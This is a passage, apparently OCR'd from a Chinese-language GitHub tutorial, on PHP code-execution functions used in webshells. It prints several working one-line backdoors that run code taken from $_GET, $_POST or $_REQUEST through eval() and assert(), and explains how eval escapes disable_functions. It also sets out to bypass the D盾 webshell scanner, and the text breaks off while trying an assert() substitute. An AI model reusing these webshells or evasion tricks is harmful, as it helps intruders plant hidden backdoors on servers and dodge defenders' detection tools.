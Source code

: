 
**代码执行与加密函数**

`eval()`和 `assert()`的区别:

|函数|含义|举例|区别|
|---|---|---|---|
|eval()|把字符串作为PHP代码执行|```<?php eval(@urldecode($_GET['1']));```| `eval` 是一个 `语言构造器` 而不是一个函数|
|assert()|检查一个`断言`是否为 FALSE。如果 `断言`是字符串，它将会被 assert() 当做 PHP 代码来执行|```<?php assert(@urldecode($_GET['1']));```|`assert` 是一个 `函数`|


**什么是语言构造器、什么是函数。**

- 语言结构：就是PHP语言的关键词，语言语法的一部分；它不可以被用户定义或者添加到语言扩展或者库中；它可以有也可以没有变量和返回值。 

- 函数：    由代码块组成的，可以复用。

打个比方 语言构造类似于C/C++ 直接与底层语言调用，函数类似于JAVA要过一层解析器。

举例：
```php
<?php
$a = "eval";
$a(@$_GET['a']);  //执行失败

eval(@$_GET['a']); //执行成功
?>
```
> 因为eval是一个语言构造器而不是一个函数，不能被可变函数调用。也无法用php.ini中的disable_functions禁止掉。

可见`eval`这么危险，肯定是被特 别 关 注 的。但是也不是代表见到就杀，其实在网页中也有很多常见的例子，例如和数据库字段中和日后计算进行的代码存储方面很有用。举个[eval()bypassD盾的栗子](#BypassD盾)

 如果实在不行可以找一些代替函数或者 奇 技 淫 巧 绕过。 

## 木马中的常见传值或绕过函数

|函数|含义|举例|木马示例|
|---|---|---|---|
|end()|将数组的内部指针指向最后一个值|`<?php $a=array(1,2,3,4,5,6,7);echo end($a);?>`|`<?php eval(end($_REQUEST)); ?>`|
|$_REQUEST|默认情况下包含了 `$_GET`，`$_POST` 和 `$_COOKIE` 的数组，默认情况下用于代替传统get和post|`$_REQUEST['a']/$_REQUEST`|`$_REQUEST['shell']`|
|define()| 定义一个常量|`define ($a,$b,$c)`|`<?php define("shell","$_REQUEST[shell]")eval(shell);?>`|
|extract()|从数组中将变量导入到当前的符号表|`extract($var_array, EXTR_PREFIX_SAME, "wddx");`|`<?php  $a=1;$b=$_POST;extract($b);print_r(`$a`)?>`|
||||


**Tips：**
那我们就去特殊函数中找找函数吧，最常见的代替`eval()`的函数有`assert()`;正当我满怀期待的构造了一波:
```php
<?php 
$a = "assert";
$a(@$_POST['shell']); 
//assert(@$_POST['shell'])
?>
```
发现👴上当了，马无法执行并且报了个`不能使用字符串参数动态调用assert()`的错，👴傻了。
查了一下发现。
